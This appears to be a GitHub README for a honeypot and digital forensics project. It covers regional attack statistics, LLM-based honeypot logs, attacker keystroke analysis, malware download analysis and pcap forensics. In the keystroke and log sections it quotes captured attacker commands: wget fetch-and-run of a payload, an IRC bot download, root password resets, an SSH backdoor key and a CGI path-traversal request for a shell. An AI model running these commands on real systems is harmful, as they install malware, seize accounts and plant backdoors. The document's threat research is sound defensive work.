# Project: HoneyNet and DFIR

## Project Overview

This project encompasses the strategic deployment of honeypots to capture malware files and monitor hacker activities. The data collected from these honeypots undergo thorough analysis within the Digital Forensic Lab, operating within the framework of Digital Forensics and Incident Response (DFIR). Furthermore, the Digital Forensic Lab examines hacking patterns generated within the Penetration Testing Lab in the [Pentest project](https://github.com/alanshlam/Pentest), enabling comprehensive studies and investigations.

Furthermore, the Digital Forensic Lab serves as a hub for studying and understanding hacking patterns that are generated within the Penetration Testing Lab and collected from Honeypots. These hacking patterns serve as valuable resources for our forensic analysts, enabling them to gain a deeper understanding of the evolving tactics employed by malicious actors. By closely examining these patterns, we can identify recurring trends, emerging attack vectors, and potential vulnerabilities that require immediate attention.

The synergy between the Penetration Testing Lab and the Digital Forensic Lab is instrumental in enhancing our overall cybersecurity posture. The insights gained from the analysis of honeypot data and hacking patterns enable us to refine our penetration testing methodologies, develop targeted countermeasures, and improve incident response capabilities. This iterative process ensures that our defensive strategies are continuously evolving to keep pace with the ever-changing threat landscape.

## Findings and Studies

### Global Cyberattack Patterns: Insights from TPOT Honeypot and VirusTotal Analysis Across HK, UK, USA, and AUS Regions
Four T-Pot Honypots are deployed accross HK, UK, USA, and AUS Regions. This study analyzes data from TPOT honeypots and VirusTotal scans of Cowrie honeypot download files across Hong Kong (HK), United Kingdom (UK), United States (USA), and Australia (AUS) to uncover global cyberattack patterns targeting network infrastructure. By examining usernames, passwords, attack sources, operating systems, ports, vulnerabilities (CVEs), and downloaded files, the study reveals a coordinated threat landscape dominated by botnet-driven brute-force attacks, IoT exploitation, and malware deployment. The findings highlight common attack vectors, regional variations, and emerging trends, providing actionable insights and recommendations to enhance network security against evolving cyber threats.

You can view the full report and raw data of this study at https://github.com/alanshlam/HoneyNet/tree/main/4r_report

#### Executive Summary 

This executive summary encapsulates the key findings from the TPOT honeypot data and VirusTotal analysis of Cowrie download files across Hong Kong (HK), United Kingdom (UK), United States (USA), and Australia (AUS) regions. The data reveals a global cyberattack landscape targeting weak credentials, legacy systems, and IoT devices, with coordinated botnet activity (e.g., "mirai", "multiverze") exploiting ports like 22 (SSH) and 5060 (SIP). The United States and Romania are primary attack sources, with vulnerabilities ranging from legacy (e.g., CVE-2006-2369) to modern (e.g., CVE-2021-44228). Trend predictions indicate increased IoT botnet sophistication, advanced credential attacks, and new vulnerability exploitation. Recommendations focus on securing credentials, patching systems, and monitoring high-risk ports and IPs. The table below summarizes the key findings, trends, and recommendations for easy comprehension.


| **Category**            | **Key Findings**                                                                 | **Trend Predictions**                                                                 | **Recommendations**                                                                 |
|-------------------------|----------------------------------------------------------------------------------|--------------------------------------------------------------------------------------|------------------------------------------------------------------------------------|
| **Usernames**           | "root" (top: HK: 29,508; UK: 62,575; USA: 38,439; AUS: 25,720), "admin", "sa", "345gs5662d34" targeted, indicating botnet-driven brute-force attacks. | More sophisticated credential attacks using AI-driven brute-forcing or dynamic credentials. | Enforce complex passwords, disable default accounts (root, admin), monitor botnet credentials (e.g., 345gs5662d34). |
| **Passwords**           | "123456" (top: HK: 8,045; UK: 10,549; USA: 11,757; AUS: 4,851), "123", "345gs5662d34", "password" dominate; high "(empty)" in USA (1,829). | Increased use of coordinated, campaign-specific passwords in botnet attacks.           | Require strong passwords, implement MFA, flag "(empty)" attempts in IDS.            |
| **Attack Countries**    | USA (top: HK: 549,721; UK: 800,062; USA: 1,266,211; AUS: 755,017), Romania, China consistent; Romania focuses on port 5060. | Diversification of attack sources (e.g., South Africa, Brazil) due to cheap hosting.   | Monitor USA/Romania IPs, especially for port 5060 traffic.                |
| **OS Distribution**     | Linux 2.2.x-3.x (top: HK: 3,317,952; UK: 2,971,687; USA: 3,989,951; AUS: 2,819,156), Windows 7/8 targeted; UK hits Windows XP (326,500). | Continued targeting of legacy Linux/IoT systems; increased focus on modern OSes.       | Patch legacy Linux/Windows systems, secure IoT devices, disable Telnet.             |
| **Ports**               | Port 22 (SSH) and 5060 (SIP, e.g., Romania: HK: 398,894; AUS: 406,566) heavily targeted; port 23 (Telnet), 80 (HTTP) common. | Growing attacks on IoT-related ports (e.g., 23, 5060) and new service ports.           | Block/restrict ports 22, 23, 5060, 5900–5902, 15965; deploy IDS/IPS for detection.  |
| **CVEs**                | CVE-2006-2369 (VNC: UK: 170,143; USA: 281,315; AUS: 164,077), CVE-2002-0013 (SNMP), CVE-2021-44228 (Log4j in USA/AUS) exploited. | Rapid adoption of new CVEs (e.g., Log4j-like vulnerabilities) in attack campaigns.     | Patch legacy (e.g., CVE-2006-2369) and modern (e.g., CVE-2021-44228) vulnerabilities.|
| **Downloads analyzed by VirusTotal**    | 8 non-malicious ASCII files (6 with download scripts); 14 malicious files (trojans: mirai, multiverze; miners; downloaders); IoT/Linux focus. | Increased botnet (mirai, multiverze) and miner activity; obfuscated download scripts.  | Use antivirus for trojans/miners, monitor download attempts, analyze in sandboxes.   |
| **Key Insight**         | Global botnet campaigns exploit weak credentials, IoT/Linux systems, and legacy/modern vulnerabilities via SSH and VoIP ports. | Sophisticated botnets, AI-driven attacks, and new vulnerabilities will dominate.       | Harden systems, secure ports, monitor botnet IOCs, and train staff on IoT security.  |

#### Below screenshots show the data collected in the past 4 weeks:





### LLM-based Honeypots Deployment
LLM-based honeypots, such as T-Pot's Galah and Beelzebub, enhance honeypot deployment by leveraging advanced language models like gemma3 to intelligently analyze and respond to attacker interactions, thereby improving threat detection and data collection. Th log data collected from this LLM-based honeypot by using gemma3:4b powered by Tesla V100-PCIE-16GB demonstrates their effectiveness, capturing a range of malicious activities, including attempts to access sensitive files like `/.env` and `/.git/config`, which expose API keys and database URLs, and reconnaissance efforts via commands like `uname`, `nproc`, and `nvidia-smi` to gather system and network details. By mimicking realistic server responses and dynamically interpreting attacker inputs, LLM-based honeypots provide richer insights into attack patterns, enabling better identification of vulnerabilities and more robust cybersecurity strategies.

Below is the top 10 requests and inputs from Galah and Beelzebub log

    Top 10 requests in Galah logs
        1. Method: GET, URI: /.env
        2. Method: GET, URI: /favicon.ico
        3. Method: GET, URI: /?XDEBUG_SESSION_START=phpstorm
        4. Method: CONNECT, URI: www.google.com:443
        5. Method: GET, URI: /.git/config
        6. Method: POST, URI: /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh
        7. Method: PRI, URI: *
        8. Method: GET, URI: /robots.txt
        9. Method: GET, URI: /version
        10. Method: GET, URI: /_profiler/phpinfo
        
    Top 10 inputs from Beelzebub.log
        1. Input: uname -s -v -n -r -m
        2. Input: echo -e "\x6F\x6B"
        3. Input: nproc
        4. Input: uptime -p
        5. Input: lspci | grep VGA | cut -f5- -d ' '
        6. Input: nvidia-smi -q | grep "Product Name" | head -n 1 | awk '{print $4, $5, $6, $7, $8, $9, $10, $11}'
        7. Input: lspci | grep VGA -c
        8. Input: lspci | grep "3D controller" | cut -f5- -d ' '
        9. Input: nvidia-smi -q | grep "Product Name" | awk '{print $4, $5, $6, $7, $8, $9, $10, $11}' | grep . -c
        10. Input: ip r | grep -Eo '[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}/[0-9]{1,2}'


### T-Pot Honeypot Deployment

We have deployed the T-Pot honeypot on a cloud platform to collect malware files and monitor hacker activities. The following screenshot provides an overview of the [top 10 attacks](./data/Honeypot%20Attacks%20-%20Top%2010.csv), [attack map](./screenshot/Attack_Map_Dynamic.jpg), [attackers' source IP](./data/Attacker%20Source%20IP%20-%20Top%2010.csv), [Attacks by Country and Port](./data/Attacks%20by%20Country%20and%20Port.csv),  [attackers' OS distribution](./data/P0f%20OS%20Distribution.csv), [attackers by country](./data/Attacks%20by%20Country.csv), [username](./data/Username%20Tagcloud.csv) and [password](./data/Password%20Tagcloud.csv) tag cloud, [attackers' autonomous systems (AS)](./data/Attacker%20AS_N%20-%20Top%2010.csv), [detected Common Vulnerabilities and Exposures (CVE)](./data/Suricata%20CVE%20-%20Top%2010.csv), and [Suricata IDS alerts](./data/Suricata%20Alert%20Signature%20-%20Top%2010.csv) over the past 4 weeks.

The statistical data from T-Pot Honeypots is also available in CSV format in the [data_folder](./data/).

<div align="left">
    
</div>

### T-Pot Honeypot Usage

The video below shows how to use the T-Pot honeypot to collect malware files and monitor hacker activities.

[](https://www.youtube.com/watch?v=T2XmKk22Rlo)

(https://www.youtube.com/watch?v=T2XmKk22Rlo)

### T-Pot Attack Map

The videos below shows the T-Pot Attack Map in two minutes. 



The video below demonstrates that an attacker from Brazil continuously attacked the honeypot's SMB.

(https://www.youtube.com/watch?v=y5aF4Ea5r6Q)

The video below demonstrates that an attacker from Vietnam continuously attacked the honeypot's SMB.

(https://www.youtube.com/watch?v=ff_2JJN1Pt8)


### Hacker Activities and Keystroke Analysis

A total of 6,420 hacker keystroke sessions have been recorded following their break-ins, encompassing 133,694 lines of keystrokes. The common activities performed by hackers after breaking into systems include:

- **Probing Victim Host Information:** Gathering details such as IP address, OS version, installed software, CPU, memory, and disk size. E.G.
    ```bash
    df -h | head -n 2 | awk 'FNR == 2 {print $2;}'lscpu | grep Modelwhoamiuname -aunametopcat /proc/cpuinfo | grep model | grep name | wc -luname -mwcrontab -lls -lh $(which ls)free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}'cat /proc/cpuinfo | grep name | head -n 1
    lscpu | grep "CPU(s):
    cat /proc/mounts
    ```
- **Check enabled built-ins:**  check enabled built-ins commands on the victim host. E.G.
    ```bash
    root@ubuntu:~# enable
    enable .
    enable :
    enable [
    enable alias
    enable bg
    enable bind
    enable break
    enable builtin
    enable caller
    enable cd
    enable command
    enable compgen
    enable complete
    
    ```

- **Modifying Credentials:** Changing the root password or creating other root accounts. E.G.
    ```bash
    echo "root:ZYOYI3d9rSGq"|chpasswd|bash
    echo -e "new_password\nnew_password"|passwd|bash
    ```
- **Downloading Files:** Using tools like `wget`, `ftp`, or `curl` to download files and attempting to execute them. E.G.
    ```bash
    wget http://[IP]:25770/.i; chmod 777 .i; ./.i
    ```
- **Creating Binary Files:** Using echo hex code to create binary files and attempting to execute them. E.G.
    ```bash
    echo -ne "\x7f\x45\x4c\x46\x01\x02\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x08\x00\x00\x00\x01\x00\x40\x00\xb0\x00\x00\x00\x34\x00\x00\x01\x64\x00\x00\x10\x06\x00\x34\x00\x20\x00\x02\x00\x28\x00\x03\x00\x02\x70\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" >> .s
    ```
- **Installing Trojan Programs:** Installing trojan horse programs.
- **Establishing Backdoors:** Appending public keys to the `authorized_keys` file for SSH access. E.G.
    ```bash
    cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~echo "123456\nO9O7RwyNaHwh\nO9O7RwyNaHwh\n"|passwd echo "root:8ufW8KmuglZC"|chpasswd|bash
    ```
- **Setting Up Proxy Servers:** Configuring IRC proxies, botnet command and control channels. E.G.
    ```bash
    cd /tmp ; wget [ip]/irc.pl ; perl irc.pl ; rm -rf irc.pl ; curl -O [ip]/irc.pl ; perl irc.pl ; rm -rf irc.pl ; history -cls /homecommand -v curl
    ```
- **Running DDoS Attacks:** Conducting Distributed Denial of Service (DDoS) attacks.
- **Mining Cryptocurrency:** Running cryptocurrency mining operations.

### Downloaded Files Analysis

We have archived more than 210 unique files downloaded by hackers. Below is the distribution of these file types:

| File Type                 | Percentage |
|---------------------------|------------|
| Executable Binary         | 46%        |
| ASCII Text                | 22%        |
| Data                      | 17%        |
| Shell Script              | 7%         |
| Gzip Compressed Data      | 7%         |
| OpenSSH RSA Public Key    | 1%         |

<div align="left">

</div>

You can view the hash and file type of these downloaded files at [data/dl_file_hash.csv](./data/dl_file_hash.csv).

Most of these files, except for some recent downloads or short shell scripts, can be identified by various antivirus agents on VirusTotal. These files are primarily classified as Trojan horses, Backdoor, DDoS tools, and CoinMiners. You can view the analysis results of the downloaded files from VirusTotal queries in the [data/VirusTotal_Analysis.md](./data/VirusTotal_Analysis.md) file. 

Below screenshot shows the Virustotal hash search of a download file 
<div align="left">
    
</div>


Some download scripts performed below activities
-	Checked if it can run as root user. 
-	Modified `/etc/sudoers` file with the entry `daemon ALL=(ALL) NOPASSWD: ALL` to allows the `daemon` user to execute any command as any user without needing to provide a password 
-	Modified `/etc/rc.local` file to ensure its script runs on system startup
-	Killed various processes (`bins.sh`, `minerd`, `node`, etc.) that are commonly associated with cryptocurrency mining and other malicious activities.
-	Added a malicious entry to `/etc/hosts`.
-	Deleted `.bashrc` files for root and the `pi` user.
-	Changed the password for a user.
-	Modified `.ssh/authorized_keys` to set up SSH keys for root access.
-	Modified DNS settings to use Google's DNS server.
-	Deleted various temporary files and directories
-	Setup IRC Bot
-	Preformed Network Scanning and Propagation, including updating the package list and installs `zmap` and `sshpass`, Scanning for open SSH ports, and attempting to copy itself to other systems using default passwords, and executing itself on the remote systems.

## Network Forensics

In the Penetration Testing Lab, various hacking techniques have been studied, and their corresponding attack network packets have been recorded in PCAP files. Below, we provide an analysis of some of these attack network packets using Wireshark and tcpdump tools.

### Attack Network Packet Analysis

#### 1. DDoS Attack  ([ddos.pcap](./pcap/ddos.pcap))

This pcap file contains 5000 ICMP Smurf DDoS attack network packets directed at a victim. The attacker launched over 30 source-spoofed IP ICMP packets to the victim in one millisecond.

 
 
#### 2. DNS Hijack Attack  ([dns_hijack.pcap](./pcap/dns_hijack.pcap))

This pcap file captures DNS hijack attack network packets. The analysis shows that fake DNS reply packets from the attacker always reach the victim host earlier than the authentic DNS reply packets from the genuine DNS server. These fake DNS reply packets redirect the victim to a phishing website. The attacker also launched a DoS attack on the genuine DNS server to slow down its reply packets to the victim host.

 
 
#### 3. Man-in-the-Middle Attack  ([mitm.pcap](./pcap/mitm.pcap))

This pcap file records network packets of HTTPS interception by a MITM attack via ARP poisoning. Normally, HTTPS network packets are encrypted by a session key between the client and web server. An attacker cannot decrypt the HTTPS traffic without the session key. However, if the attacker can redirect the victim's HTTPS traffic to their managed host (e.g., by DNS hijack or ARP poisoning in a LAN), they can supply their own session key to the victim host, decrypt the HTTPS traffic, and relay the HTTPS traffic between the victim host and the genuine web server.



The video below demostrate how an attacker can sniff victim account passwords by intercepting HTTPS traffic in a MITM attack:
(https://www.youtube.com/watch?v=E_E2cYAhyiU)


#### 4. SMB Break-in ([smb.pcap](./pcap/smb.pcap))

This pcap file captures Server Message Block (SMB) network packets post-break-in. These packets record the attacker's commands after the break-in. By examining these network packets, we can reconstruct the attacker's activities.




#### You can download the above pcap files at [here](./pcap/)

#### The video below demonstrate how we use Wireshark and tcpdump tools to analyze the above-recorded network packets:
(https://www.youtube.com/watch?v=mpGF8-iyuhw)


## Future Work
- **AI Integration:** Utilize AI technologies to automate the analysis and categorization of data gathered from honeypots during the initial stages of Digital Forensics and Incident Response (DFIR) investigations. This integration will streamline the process and enable efficient examination of the collected data, aiding in the identification of potential threats and patterns.
- **Knowledge Base Development:** Establish a comprehensive knowledge base for this project by leveraging large language models (LLMs). Collaborate on the [LLM knowledge base project](https://github.com/alanshlam/LLM) to accumulate and consolidate valuable expertise. This collaborative effort will ensure the knowledge base remains up-to-date and serves as a valuable resource for the team.
- **Enhance Digital Forensic Lab:** Strengthen the capabilities of the Digital Forensic Lab to conduct thorough static and dynamic analysis of collected malware. By investing in advanced tools and technologies, the lab will be better equipped to extract critical information and gain deeper insights from malware samples, aiding in investigations and response efforts.
- **Develop Analytical Tools:** Create specialized tools to analyze the relationship between the time gap of malware collection and the release of vulnerabilities (e.g., the latest CVEs). Focus on studying the frequency of zero-day attacks and their correlation with vulnerabilities. These tools will provide valuable insights into the effectiveness of existing security measures and inform proactive defense strategies.
- **Expand Honeypot Deployment:** Expand the deployment of honeypots across different regions to gather a broader set of data. By comparing the collected data from various regions, it will be possible to identify regional variations in hacker activities and tactics. This understanding can contribute to the development of targeted security measures and enhance overall threat intelligence.

By undertaking these future initiatives, we aim to bolster our DFIR capabilities, enhance our understanding of emerging threats, and strengthen our overall cybersecurity posture.
